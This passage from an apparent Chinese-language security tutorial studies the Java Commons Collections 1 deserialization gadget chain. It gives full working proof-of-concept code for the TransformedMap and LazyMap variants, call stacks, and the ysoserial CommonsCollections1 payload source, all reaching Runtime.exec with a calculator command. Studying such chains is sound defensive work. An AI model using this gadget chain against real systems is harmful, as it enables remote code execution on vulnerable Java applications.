                    new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class},
                            new Object[]{null, new Object[0]}),
                    new InvokerTransformer("exec", new Class[]{String[].class},
                            new Object[]{new String[]{"open", "-a", "Calculator"}}),
            };


            Transformer transformerChain = new ChainedTransformer(transformers);
            Map innerMap = new HashMap();
            innerMap.put("value", "xxxx");
            Map outerMap = TransformedMap.decorate(innerMap, null, transformerChain);
            //outerMap.put("value", "yyy");
            Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
            Constructor construct = clazz.getDeclaredConstructor(Class.class, Map.class);
            construct.setAccessible(true);
            InvocationHandler handler = (InvocationHandler) construct.newInstance(Retention.class, outerMap);

            ByteArrayOutputStream barr = new ByteArrayOutputStream();
            ObjectOutputStream oos = new ObjectOutputStream(barr);
            oos.writeObject(handler);
            oos.close();

            System.out.println(barr);
            ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));
            Object o = (Object) ois.readObject();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

完整调用栈如下

```
at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:57)
at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
at java.lang.reflect.Method.invoke(Method.java:601)
at org.apache.commons.collections.functors.InvokerTransformer.transform(InvokerTransformer.java:125)
at org.apache.commons.collections.functors.ChainedTransformer.transform(ChainedTransformer.java:122)
at org.apache.commons.collections.map.TransformedMap.checkSetValue(TransformedMap.java:169)
at org.apache.commons.collections.map.AbstractInputCheckedMapDecorator$MapEntry.setValue(AbstractInputCheckedMapDecorator.java:191)
at sun.reflect.annotation.AnnotationInvocationHandler.readObject(AnnotationInvocationHandler.java:353)
at sun.reflect.NativeMethodAccessorImpl.invoke0(NativeMethodAccessorImpl.java:-1)
at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:57)
at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
at java.lang.reflect.Method.invoke(Method.java:601)
at java.io.ObjectStreamClass.invokeReadObject(ObjectStreamClass.java:1004)
at java.io.ObjectInputStream.readSerialData(ObjectInputStream.java:1891)
at java.io.ObjectInputStream.readOrdinaryObject(ObjectInputStream.java:1796)
at java.io.ObjectInputStream.readObject0(ObjectInputStream.java:1348)
at java.io.ObjectInputStream.readObject(ObjectInputStream.java:370)
at Base.Unserialize.CC.CommonCollections1Seri3.main(CommonCollections1Seri3.java:49)
```

## CC1 LazyMap POC编写

在ysoserial里面其实用的并不是TransformedMap，而是LazyMap，对比了一下两条利用链，LazyMap的漏洞触发点和TransformedMap唯一的差别是，TransformedMap是在写入元素的时候执行transform：

```java
    protected Object transformValue(Object object) {
        return this.valueTransformer == null ? object : this.valueTransformer.transform(object);
    }
```

而LazyMap是在其get方法中执行的`factory.transform`。其实这也好理解，LazyMap 的作用是“懒加载”，在get找不到值的时候，它会调用 factory.transform 方法去获取一个值:

```java
public Object get(Object key) {
    // create value for key if key is not currently in the map
    if (map.containsKey(key) == false) {
        Object value = factory.transform(key);
        map.put(key, value);
        return value;
}
    return map.get(key);
}
```

但是又如何调用到这个`get`呢？`AnnotationInvocationHandler`类的`invoke`方法有调用到get:

```java
public Object invoke(Object var1, Method var2, Object[] var3) {
        String var4 = var2.getName();
        Class[] var5 = var2.getParameterTypes();
        if (var4.equals("equals") && var5.length == 1 && var5[0] == Object.class) {
            return this.equalsImpl(var3[0]);
        } else if (var5.length != 0) {
            throw new AssertionError("Too many parameters for an annotation method");
        } else {
            switch (var4) {
                case "toString":
                    return this.toStringImpl();
                case "hashCode":
                    return this.hashCodeImpl();
                case "annotationType":
                    return this.type;
                default:
                    Object var6 = this.memberValues.get(var4);
                    if (var6 == null) {
                        throw new IncompleteAnnotationException(this.type, var4);
                    } else if (var6 instanceof ExceptionProxy) {
                        throw ((ExceptionProxy)var6).generateException();
                    } else {
                        if (var6.getClass().isArray() && Array.getLength(var6) != 0) {
                            var6 = this.cloneArray(var6);
                        }

                        return var6;
                    }
            }
        }
    }
```

可以看到绕过逻辑非常简单，直接就会调用get，但是需要调用invoke到话怎么做呢？

我们可以使用Java对象代理，作为一门静态语言，如果想劫持一个对象内部的方法调用，实现类似PHP的魔术方法`__call` ，我们要用到`java.reflect.Proxy` :

```java
Map proxyMap = (Map) Proxy.newProxyInstance(Map.class.getClassLoader(), new Class[] {Map.class}, handler);
```

`Proxy.newProxyInstance`的第一个参数是ClassLoader，我们用默认的即可；第二个参数是我们需要 代理的对象集合;第三个参数是一个实现了`InvocationHandler`接口的对象，里面包含了具体代理的逻辑。

写个简单的demo，比如说，一个类`ExampleInvocationHandler`

```java
package Base.Unserialize.CC;

import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Method;
import java.util.Map;
public class ExampleInvocationHandler implements InvocationHandler {
    protected Map map;
    public ExampleInvocationHandler(Map map) {
        this.map = map;
    }
    @Override
    public Object invoke(Object proxy, Method method, Object[] args) throws
            Throwable {
        if (method.getName().compareTo("get") == 0) {
            System.out.println("Hook method: " + method.getName());
            return "Hacked Object";
        }
        return method.invoke(this.map, args);
    }
}
```

只要调用的方法名为`get`就返回`Hacked Object`，对应的写个app来加载

```java
package Base.Unserialize.CC;

import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.HashMap;
import java.util.Map;

public class app {
    public static void main(String[] args) throws Exception {
        InvocationHandler handler = new ExampleInvocationHandler(new HashMap());
        Map proxyMap = (Map)
                Proxy.newProxyInstance(Map.class.getClassLoader(), new Class[] {Map.class},
                        handler);
        proxyMap.put("hello", "world");
        String result = (String) proxyMap.get("hello");
        System.out.println(result);
    }
}
```

可以看到即使是hello，但是返回依旧`Hacked Object`，可以总结几点

- `sun.reflect.annotation.AnnotationInvocationHandler` 是一个实现了 `InvocationHandler` 的类，它本身就是一个动态代理处理器 。
- 在反序列化时，如果它被包装成一个代理对象（Proxy） ，那么对这个代理对象的任何方法调用 都会进入 `AnnotationInvocationHandler#invoke` 方法。
- `LazyMap` 是 Apache Commons Collections 中的一个类，它的 `get()` 方法会在键不存在时 调用 `Transformer` 链（如 `ChainedTransformer`）。
- 如果能让 `AnnotationInvocationHandler#invoke` 调用 `LazyMap#get`，就能触发 `Transformer` 链（如 `Runtime.exec()`）。

对TransformedMap的POC进行替换即可，需要注意的一点就是代理之后的对象不能直接被序列化，入口依旧是`AnnotationInvocationHandler#readObject`，所以需要`AnnotationInvocationHandler`再包裹一层

```java
package Base.Unserialize.CC;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.annotation.Retention;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.HashMap;
import java.util.Map;

public class CommonsCollections1_LazyMap {
    public static void main(String[] args) {
        try {
            Transformer[] transformers = new Transformer[]{
                    new ConstantTransformer(Runtime.class),
                    new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class},
                            new Object[]{"getRuntime", new Class[0]}),
                    new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class},
                            new Object[]{null, new Object[0]}),
                    new InvokerTransformer("exec", new Class[]{String[].class},
                            //new Object[]{new String[]{"open", "-a", "Calculator"}}),
                            new Object[]{new String[]{"calc"}}),
            };

            Transformer chainedTransformer = new ChainedTransformer(transformers);
            Map innerMap = new HashMap();
            Map lazyMap = LazyMap.decorate(innerMap, chainedTransformer);

            Class<?> clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
            Constructor<?> constructor = clazz.getDeclaredConstructor(Class.class, Map.class);
            constructor.setAccessible(true);
            InvocationHandler handler = (InvocationHandler) constructor.newInstance(Retention.class, lazyMap);

            //触发 invoke
            Map proxyMap = (Map) Proxy.newProxyInstance(
                    Map.class.getClassLoader(),
                    new Class[]{Map.class},
                    handler
            );
            handler = (InvocationHandler) constructor.newInstance(Retention.class, proxyMap);

            ByteArrayOutputStream barr = new ByteArrayOutputStream();
            ObjectOutputStream oos = new ObjectOutputStream(barr);
            oos.writeObject(handler);
            oos.close();

            System.out.println(barr);
            ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));
            Object o = (Object) ois.readObject();


        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

完整调用栈如下

```
at org.apache.commons.collections.functors.InvokerTransformer.transform(InvokerTransformer.java:125)
at org.apache.commons.collections.functors.ChainedTransformer.transform(ChainedTransformer.java:122)
at org.apache.commons.collections.map.LazyMap.get(LazyMap.java:151)
at sun.reflect.annotation.AnnotationInvocationHandler.invoke(AnnotationInvocationHandler.java:69)
at com.sun.proxy.$Proxy1.entrySet(Unknown Source:-1)
at sun.reflect.annotation.AnnotationInvocationHandler.readObject(AnnotationInvocationHandler.java:346)
at sun.reflect.NativeMethodAccessorImpl.invoke0(NativeMethodAccessorImpl.java:-1)
at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:57)
at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
at java.lang.reflect.Method.invoke(Method.java:601)
at java.io.ObjectStreamClass.invokeReadObject(ObjectStreamClass.java:1004)
at java.io.ObjectInputStream.readSerialData(ObjectInputStream.java:1891)
at java.io.ObjectInputStream.readOrdinaryObject(ObjectInputStream.java:1796)
at java.io.ObjectInputStream.readObject0(ObjectInputStream.java:1348)
at java.io.ObjectInputStream.readObject(ObjectInputStream.java:370)
at Base.Unserialize.CC.CommonsCollections1_LazyMap.main(CommonsCollections1_LazyMap.java:58)
```

不过这条链子也依旧受jdk版本控制，也就是说，CC1都会受版本控制，

调试上述POC的时候，会发现弹出了两个计算器，或者说，还没有执行到readObject的时候就弹出了计算器，这显然不是预期的结果，原因是什么呢?

在使用Proxy代理了map对象后，我们在任何地方执行map的方法都会触发Payload弹出计算器，所以，在本地调试代码的时候，因为调试器会在下面调用一些`toString`之类的方法，导致不经意间触发了 命令。看看ysoserial里面怎么写的  https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/payloads/CommonsCollections1.java

```java
package ysoserial.payloads;

import java.lang.reflect.InvocationHandler;
import java.util.HashMap;
import java.util.Map;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;

import ysoserial.payloads.annotation.Authors;
import ysoserial.payloads.annotation.Dependencies;
import ysoserial.payloads.annotation.PayloadTest;
import ysoserial.payloads.util.Gadgets;
import ysoserial.payloads.util.JavaVersion;
import ysoserial.payloads.util.PayloadRunner;
import ysoserial.payloads.util.Reflections;

/*
	Gadget chain:
		ObjectInputStream.readObject()
			AnnotationInvocationHandler.readObject()
				Map(Proxy).entrySet()
					AnnotationInvocationHandler.invoke()
						LazyMap.get()
							ChainedTransformer.transform()
								ConstantTransformer.transform()
								InvokerTransformer.transform()
									Method.invoke()
										Class.getMethod()
								InvokerTransformer.transform()
									Method.invoke()
										Runtime.getRuntime()
								InvokerTransformer.transform()
									Method.invoke()
										Runtime.exec()

	Requires:
		commons-collections
 */
@SuppressWarnings({"rawtypes", "unchecked"})
@PayloadTest ( precondition = "isApplicableJavaVersion")
@Dependencies({"commons-collections:commons-collections:3.1"})
@Authors({ Authors.FROHOFF })
public class CommonsCollections1 extends PayloadRunner implements ObjectPayload<InvocationHandler> {

	public InvocationHandler getObject(final String command) throws Exception {
		final String[] execArgs = new String[] { command };
		// inert chain for setup
		final Transformer transformerChain = new ChainedTransformer(
			new Transformer[]{ new ConstantTransformer(1) });
		// real chain for after setup
		final Transformer[] transformers = new Transformer[] {
				new ConstantTransformer(Runtime.class),
				new InvokerTransformer("getMethod", new Class[] {
					String.class, Class[].class }, new Object[] {
					"getRuntime", new Class[0] }),
				new InvokerTransformer("invoke", new Class[] {
					Object.class, Object[].class }, new Object[] {
					null, new Object[0] }),
				new InvokerTransformer("exec",
					new Class[] { String.class }, execArgs),
				new ConstantTransformer(1) };

		final Map innerMap = new HashMap();

		final Map lazyMap = LazyMap.decorate(innerMap, transformerChain);

		final Map mapProxy = Gadgets.createMemoitizedProxy(lazyMap, Map.class);

		final InvocationHandler handler = Gadgets.createMemoizedInvocationHandler(mapProxy);

		Reflections.setFieldValue(transformerChain, "iTransformers", transformers); // arm with actual transformer chain

		return handler;
	}

	public static void main(final String[] args) throws Exception {
		PayloadRunner.run(CommonsCollections1.class, args);
	}

	public static boolean isApplicableJavaVersion() {
        return JavaVersion.isAnnInvHUniversalMethodImpl();
    }
}
```

可以看到`ysoserial`对弹两个计算器有所处理，延迟加载`Transformer`链，它在POC的最后才将执行命令的Transformer数组设置到transformerChain 中，原因是避免本地生成序列化流的程序执行到命令(在调试程序的时候可能会触发一次Proxy#invoke ):
